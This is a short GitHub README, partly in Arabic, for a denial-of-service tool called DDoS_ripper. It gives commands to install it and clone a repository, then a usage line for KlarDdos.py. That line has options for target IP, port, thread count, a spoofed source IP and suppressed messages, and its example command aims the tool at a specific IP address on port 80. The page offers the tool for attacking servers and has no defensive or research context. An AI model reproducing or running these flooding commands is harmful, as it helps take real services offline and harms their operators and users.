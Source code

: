 # DDoS_ripper
![IMG_20240417_215500_616](https://github.com/PRIVATE001/DDoS_ripper/assets/155662747/dc026854-6818-43f9-b472-ba5ea82418f0)

```
pkg install git
pkg install python
git clone https://github.com/PRIVATE001/DDoS_kile.git
cd DDoS_kile 
python KlarDdos.py [-i] [-p] [-l]
```
```
e.g)
 python KlarDdos.py -i 92.204.214.136 -p 80 -l  2 
```
Usage Information :
│ -h : للمساعده
│ -i : اي بي السيرفر
│ -p : البورت المراد استهدافه
│ -l : عدد نطاقات التنفيذ
│ -f : الايبي الزائف اختياري
│ -d : اخفاء الرسائل المبثقه
مثال :
 python KlarDdos.py -i 92.204.214.136 -p 80 -l  2 
 ```
